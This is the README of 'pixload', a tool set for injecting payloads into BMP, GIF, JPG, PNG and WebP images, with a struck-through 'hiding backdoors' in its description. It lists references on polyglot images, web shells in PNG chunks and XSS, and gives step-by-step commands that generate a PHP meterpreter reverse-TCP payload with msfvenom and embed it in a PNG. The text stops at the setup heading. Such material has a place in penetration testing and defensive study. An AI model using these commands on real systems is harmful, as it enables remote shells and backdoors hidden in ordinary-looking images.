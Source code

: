 # pixload -- Image Payload Creating tools

## DESCRIPTION

Set of tools for ~~hiding backdoors~~ creating/injecting payload into images.

The following image types are currently supported: BMP, GIF, JPG, PNG, WebP.

#### about

Useful references for better understanding of `pixload` and its use-cases:

- [Bypassing CSP using polyglot JPEGs](https://portswigger.net/blog/bypassing-csp-using-polyglot-jpegs)

- [Hacking group using Polyglot images to hide malvertising attacks](https://web.archive.org/web/20190226193728/https://devcondetect.com/blog/2019/2/24/hacking-group-using-polyglot-images-to-hide-malvertsing-attacks)

- [Encoding Web Shells in PNG IDAT chunks](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)

- [An XSS on Facebook via PNGs & Wonky Content Types](https://whitton.io/articles/xss-on-facebook-via-png-content-types/)

- [Revisiting XSS payloads in PNG IDAT chunks](https://www.adamlogue.com/revisiting-xss-payloads-in-png-idat-chunks/)

If you want to encode a payload in such a way that the resulting binary blob is
both valid x86 shellcode and a valid image file, I recommend you to look
[here](https://web.archive.org/web/20201008001325/https://warroom.securestate.com/bmp-x86-polyglot/)
and
[here](https://github.com/rapid7/metasploit-framework/blob/master/modules/encoders/x86/bmp_polyglot.rb).

#### msfvenom

If you want to inject a metasploit payload, you have to do something like this:

1. Create metasploit payload (i.e. php).
```sh
$ msfvenom -p php/meterpreter_reverse_tcp \
	LHOST=192.168.0.1 LPORT=31337 -f raw > payload.php
```

2. Edit `payload.php` if needed.

3. Inject `payload.php` into the image (i.e. png).
```sh
$ pixload-png -payload "$(cat payload.php)" -output payload.png
```

## SETUP
